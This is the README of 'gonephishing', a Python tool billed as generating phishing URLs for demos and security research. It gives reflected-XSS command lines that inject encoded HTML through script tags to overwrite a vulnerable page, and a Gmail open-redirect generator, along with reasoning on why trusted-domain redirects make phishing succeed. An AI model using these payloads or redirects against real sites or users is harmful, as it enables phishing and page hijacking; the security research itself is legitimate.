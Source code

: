 # gonephishing


Generate phishing urls for demos and fun (serious security research).

### clone

git clone --recurse-submodules https://github.com/vlp443/gonephishing.git

### Requires

pip3 install htmlmin

### Usage

#### Reflected XSS
This is all very new so treat it gently. It may not have long to go (chrome browser security blocks the examples given Firefox is ok IE/Edge probably okay not tested yet)

 * Generate a minified version of an html file and optionally encode in, then inject it into some javascript/html and urlencode the entire string.  
 The javascript must contain a %s field to mark location to inject html into.  
 
 Current supported encoders are b64 and hex.

~~~
python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64

python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=("%s")</script>'  --encoders --encoders hex

python3 ./gonephishing.py --xss --html "@./text.html" --js '<script>document.body.innerHTML=atob("%s")</script>'  --encoders --encoders b64,hex 
~~~
Paste the generated link into the vulnerable request parameter and the page should be overwritten with the supplied html.


#### GMAIL Redirect

~~~
python3 ./gonephishing.py --gmail  --dest https://cutecatsinhats.com/ 
~~~


### About
The OWASP top ten 2013 included A10-Unvalidated Redirects and Forwards with the following description:
Web applications frequently redirect and forward users to other pages and websites, and use untrusted data to determine the destination pages. Without proper validation, attackers can redirect victims to phishing or malware sites, or use forwards to access unauthorized pages. 

This item does not appear in the top ten 2017

google.com has over 40 unsecured redirects  This is unlikely to change as google do not see it as a vulnerability. https://sites.google.com/site/bughunteruniversity/nonvuln/open-redirect


I would expect that the majority of users would trust a site if they were redirected via mail server domain that they were logged into.  This would then cause the user to be more likely to accept a squatted domain of the type described in the quiz below due to the fact that they trust the url via which they were redirected.
 https://phishingquiz.withgoogle.com/



